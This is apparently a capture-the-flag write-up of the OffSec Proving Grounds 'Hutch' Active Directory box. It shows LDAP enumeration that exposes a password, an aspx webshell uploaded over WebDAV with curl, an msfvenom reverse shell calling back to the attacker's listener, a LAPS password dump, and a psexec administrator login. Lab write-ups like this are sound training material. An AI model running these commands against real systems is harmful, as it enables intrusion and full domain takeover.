 ```yaml
---
layout: post
title: Hutch - Proving Grounds
date: 31-01-2025
categories: [Writeups]
tag: [Proving Grounds, Active Directory, Intermediate]
---
```


# Hutch - Walkthrough

Hutch is an intermediate box on OFFSEC’s Proving Grounds, the community rates Hutch as a hard difficulty box. 

- [Hutch - Walkthrough](#hutch---walkthrough)
  - [Recon](#recon)
  - [Enumeration](#enumeration)
  - [Exploitation](#exploitation)
  - [Privilege Escalation](#privilege-escalation)


## Recon
Start scanning all ports:
```
nmap -p- 192.168.234.122 -T 5 -v
```
![Scan de todas as portas](/assets/images/Hutch/1.png)

Scanning only the open doors we found:

```
nmap -sC -sV -Pn 192.168.234.122 -p 53,80,88,135,139,389,445,464,593,636,3268,3269,9389,49666,49667,49673,49674,49676,49692,49768  -v 
```

![Scan portas abertas](/assets/images/Hutch/2.png)

## Enumeration
I accessed port 80 and was unsuccessful, so I used ldapsearch to try to get information. <br>
I found usernames and among the usernames obtained, one of them had the login and password in clear text:
*fmcsorley:CrabSharkJellyfish192*

```
ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.234.122" "(objectclass=*)"

# Freddy McSorley, Users, hutch.offsec
dn: CN=Freddy McSorley,CN=Users,DC=hutch,DC=offsec
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Freddy McSorley
description: Password set to CrabSharkJellyfish192 at users request. Please c
 hange on next login.
distinguishedName: CN=Freddy McSorley,CN=Users,DC=hutch,DC=offsec
instanceType: 4
whenCreated: 20201104053505.0Z
whenChanged: 20210216133934.0Z
uSNCreated: 12831
uSNChanged: 49179
name: Freddy McSorley
objectGUID:: TxilGIhMVkuei6KplCd8ug==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 132489437036308102
lastLogoff: 0
lastLogon: 132579563744834908
pwdLastSet: 132489417058152751
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAARZojhOF3UxtpokGnWwQAAA==
accountExpires: 9223372036854775807
logonCount: 2
sAMAccountName: fmcsorley
sAMAccountType: 805306368
userPrincipalName: fmcsorley@hutch.offsec
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=hutch,DC=offsec
dSCorePropagationData: 20201104053513.0Z
dSCorePropagationData: 16010101000001.0Z
lastLogonTimestamp: 132579563744834908
msDS-SupportedEncryptionTypes: 0
```

The nmap scan showed that there was a webdav running on port 80, so I used cadaver to test the credentials obtained to log in to the webdav

```
cadaver http://192.168.198.122
```
![cadaver](/assets/images/Hutch/3.png)

I accessed the web page which showed that IIS uses asp.net.
![iis](/assets/images/Hutch/4.png)

## Exploitation
Kali has an aspx webshell called cmdasp.aspx in the directory */usr/share/webshells/aspx/* <br>
Since I was able to log in using the credentials in the cadaver, I used curl to upload the webshell to the server.
```
curl -v http://192.168.198.122/ -u fmcsorley:CrabSharkJellyfish192 --upload-file cmdasp.aspx
```

![uploadwebshell](/assets/images/Hutch/5.png)

After uploading the webshell, I created a reverse shell with msfvenom

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.162 LPORT=4444 -f exe > rev.exe                                                      
```
![reverse](/assets/images/Hutch/6.png)

I uploaded the reverse shell using curl
```
curl -v http://192.168.198.122/ -u fmcsorley:CrabSharkJellyfish192 --upload-file rev.exe    
```
![curlshell](/assets/images/Hutch/7.png)

In the webshell, I navigated to the default IIS directory c:\inetpub\wwwroot and verified that the reverse shell file was there

![webshell](/assets/images/Hutch/8.png)

I started a listener on my host to get the connection:
```
nc -lnvp 4444
```
And I ran the reverse shell using the command:
```
start c:\inetpub\wwwroot\rev.exe
```

![webshell1](/assets/images/Hutch/9.png)

I got the reverse shell, navigated to the directory *C:\Users\fmcsorley\Desktop* where I got the flag local.txt

![local](/assets/images/Hutch/10.png)


## Privilege Escalation

Exploring the host, I noticed that it had the LAPS service installed:

![laps](/assets/images/Hutch/11.png)

I looked up how to get the passwords generated by laps through a ldap query, so I ran the code below to get the administrator's password:

```
ldapsearch -x -H "ldap://192.168.198.122" -D "hutch\fmcsorley" -w "CrabSharkJellyfish192" -b "dc=hutch,dc=offsec" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```
![ldappass](/assets/images/Hutch/12.png)

I got the password *!IWACY$+QCn76+* which I used to log in as administrator using psexec:

```
impacket-psexec hutch.offsec/administrator:'!IWACY$+QCn76+'@192.168.198.122 
```

I browsed to the administrator's desktop and got the proof.txt flag:

![proof](/assets/images/Hutch/13.png)
